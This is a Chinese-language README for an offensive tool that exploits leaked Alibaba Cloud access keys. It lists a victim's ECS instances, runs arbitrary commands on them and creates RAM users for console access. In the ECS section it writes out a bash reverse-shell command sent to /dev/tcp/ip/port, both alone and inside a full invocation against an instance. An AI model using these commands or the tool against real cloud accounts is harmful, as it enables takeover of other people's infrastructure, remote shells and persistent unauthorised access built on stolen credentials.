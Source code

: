 # CloudKeyKiller

# 前言

先说一下这个工具解决了什么，经常能遇到很多AK泄露，在前端JS中，APP中，小程序源码中碰到，有时候单独拿到AK去尝试权限是比较麻烦的，我也想是否有必要写一款这种工具，答案是：可以的

不过写的中间其实不难发现，这就是一个体力活，如果可以，其实完全可以把API都调一遍，是吧，就知道这个AK的权限有多大了

不过我还是想，能否通过API来判断该AK的权限有多少，通过这些有的权限进行利用

再一个难点其实就是环境差别太大了，首先不知道拿到AK的时候我们是黑盒的情况下，不知道权限有多大，再一个就是，这种类型的工具，它的兼容性和适配性必须要好，因为不同的KEY会有不同的结果，所以我希望使用这款工具中遇到的问题，尽管提issue，因为这能帮助这款工具更快的迭代和发现问题

况且这工具开发时间很短，除了熟悉API的时间，写代码的时间可能也就1个小时，况且这种工具属于重复造轮子，调API就可以了

## 初始配置

将自己的对应云厂商AK写入/config/conf.py中即可

![image-20220414185136736](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414185136736.png)

## ECS

### 获取所有ECS

```bash
python3 -aliyun ecs getecs
```

![image-20220414185023728](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414185023728.png)

### 在指定ECS中执行命令

```bash
python3 main.py -aliyun ecs exec instanceid command RegionId
```

- instanceid

  - ECS中的InstanceID

- command

  - 你要执行的命令

    ```bash
    bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'
    ```

- RegionID

  - 地区ID

```bash
python3 main.py -aliyun ecs exec i-2556rj "bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'" cn-beijing
```

![image-20220414190034115](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414190034115.png)

## RAM

为什么要创建RAM？为什么常见RAM之后，就可以通过账号登录到阿里云控制台

### 创建RAM用户

```bash
python3 main.py -aliyun ram createram 账号 密码
```

![image-20220414215019769](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414215019769.png)

# 推荐一个云安全wiki

- https://github.com/teamssix/twiki